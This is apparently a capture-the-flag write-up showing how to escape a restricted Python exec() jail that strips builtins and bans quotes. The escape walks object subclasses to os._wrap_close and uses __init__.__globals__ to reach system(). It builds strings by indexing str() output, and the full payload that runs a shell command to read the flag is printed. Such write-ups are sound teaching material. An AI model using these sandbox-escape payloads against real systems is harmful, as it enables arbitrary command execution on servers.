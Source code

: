 ## Description:
The extraterrestrials have upgraded their authentication system and now only them are able to pass. Did you manage to learn their language well enough in order to bypass the the authorization check?

## Methodology

This challenges has us placed in a python jail where we can provide very liminted input. Providing malformed input can get us a useful error message that gives us a little insight into what exactly this jail is doing.
```python
File "/app/build_yourself_in.py", line 13, in main
    exec(text, {'__builtins__': None, 'print':print})
```
This tells us that our input code is running inside of a locked down exec() call. With **\_\_builtins\_\_** being set to a None object we know that the only function we have available to us is print. However, we can find another restriction in the fact that if we try to run **print("test")** we get this message.
```
🛑No quotes are allowed! 🛑

Exiting..
```
This is an important restriction to know about and one we will come back to later.
For now the goal is to run some functions that have supposedly been removed from our environment with ```'__builtins__': None```.
One thing we do have access to inside of this prompt is the use of tuples. Tuples are simple objects in python that allow for immutable lists. An empty tuple can be created as ```()``` in python. This may not seem very helpful on it's own, but what's important about tuples in python is that they inherit from the **Object** class.
using the python built-in attribute __class__ and __bases__ we're able to return a tuple containing the classes that an object inherits from.
```python
print(().__class__.__bases__)
#Results in <class 'object'>
```
This is really good news for us as it means we can now access any of the other classes that are used in this program that also inherit from object. We can get a nice list of these different classes by running ```().__class__.__bases__[0].__subclasses__()``` which returns an array containing all of the subclasses of object that have been imported into this program.
I cleaned up the output and got the following list
```python
class 'type'
class 'weakref'
class 'weakcallableproxy'
class 'weakproxy'
class 'int'
class 'bytearray'
class 'bytes'
class 'list'
class 'NoneType'
class 'NotImplementedType'
class 'traceback'
class 'super'
class 'range'
class 'dict'
class 'dict_keys'
class 'dict_values'
class 'dict_items'
class 'dict_reversekeyiterator'
class 'dict_reversevalueiterator'
class 'dict_reverseitemiterator'
class 'odict_iterator'
class 'set'
class 'str'
class 'slice'
class 'staticmethod'
class 'complex'
class 'float'
class 'frozenset'
class 'property'
class 'managedbuffer'
class 'memoryview'
class 'tuple'
class 'enumerate'
class 'reversed'
class 'stderrprinter'
class 'code' [35]
class 'frame'
class 'builtin_function_or_method'
class 'method'
class 'function'
class 'mappingproxy'
class 'generator'

...
class 'bytes_iterator'
class 'bytearray_iterator'
class 'dict_keyiterator'
class 'dict_valueiterator'
class 'list_iterator'
class 'list_reverseiterator'
class 'range_iterator'
class 'set_iterator'
class 'str_iterator'
class 'tuple_iterator'
class 'collections.abc.Sized'
class 'collections.abc.Container'
class 'collections.abc.Callable'
class 'os._wrap_close'
class '_sitebuiltins.Quitter'
class '_sitebuiltins._Printer'
class '_sitebuiltins._Helper'
```
This is an incredibly long list, but out of it there are a couple important classes for what we're trying to accomplish.

```class 'str'``` is at postition 21 in the array and could be used to build a string without us inputting quotes.

```class 'os._wrap_close'``` is at position 132 and could be used to access the os.system() function for running commands on the server.
We will start tinkering with the os._wrap_close class first.
Doing some googling I came across this [article](https://blog.p6.is/Python-SSTI-exploitable-classes/) discussing vulnerable python classes.

At the bottom of the article they provide sample code to access system("ls") from os.__wrap_close
```python
[].__class__.__mro__[1].__subclasses__()[127].__init__.__globals__['system']('ls')
```
This shows that if you have the os._wrap_close class you can walk up the reference using ```__init__.__globals__``` to get a dictionary of all the functions that class implements.

We can combine this with our previous command to get a long list of all functions we have access to through OS.
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)
```
This outputs
```
{'__name__': 'os', '__doc__': "OS routines for NT or Posix depending on what system we're on.\n\nThis exports:\n  - all functions from posix or nt, e.g. unlink, stat, etc.\n  - os.path is either posixpath or ntpath\n  - os.name is either 'posix' or 'nt'\n  - os.curdir is a string representing the current directory (always '.')\n  - os.pardir is a string representing the parent directory (always '..')\n  - os.sep is the (or a most common) pathname separator ('/' or '\\\\')\n  - os.extsep is the extension separator (always '.')\n  - os.altsep is the alternate pathname separator (None or '/')\n  - os.pathsep is the component separator used in $PATH etc\n  - os.linesep is the line separator in text files ('\\r' or '\\n' or '\\r\\n')\n  - os.defpath is the default search path for executables\n  - os.devnull is the file path of the null device ('/dev/null', etc.)\n\nPrograms that import and use 'os' stand a better chance of being\nportable between different platforms.  Of course, they must then\nonly use functions that are defined by all platforms (e.g., unlink\nand opendir),
...
'system': <built-in function system>
...
```
In the middle of this incredibly long output we find the entry for **system**.
Perfect, we're almost there!

Now we have the address the elephant in the room... we still can't use quotes of any kind to build a string.<br />
The original code we want to run is ```print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['system']('ls'))```. We can do all of this except for the **system** and **ls** strings.<br />
To get around this we need to go back to the str class we found previously in the class dump. The useful aspect of this function comes from the fact that if you give it a dictionary or array, it will return the string version of that object. In python string objects can be substringed with indexes the same way you would an array.
```python
print(str({'__name__': 'os'})[4]) #This results the letter n being printed
```
With this in mind we just need to pass in an object that has all the characters we need to build the string for **system** and **ls**. I decided to pass in the large function dump we got from running the above ```__init__.__globals__``` code. With this long string for our use in substringing we are now able to piece together the strings we need. I wrote a small script to build the payload for me.

The final payload I ended up using to cat out the flag.txt file was
```python
print(().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[78]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[80]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[81]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[82]](().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[155]+().__class__.__bases__[0].__subclasses__()[22](().__class__.__bases__[0].__subclasses__()[132].__init__.__globals__)[79]))
```
This returns our flag
```
CHTB{n0_j4il_c4n_h4ndl3_m3!}
```
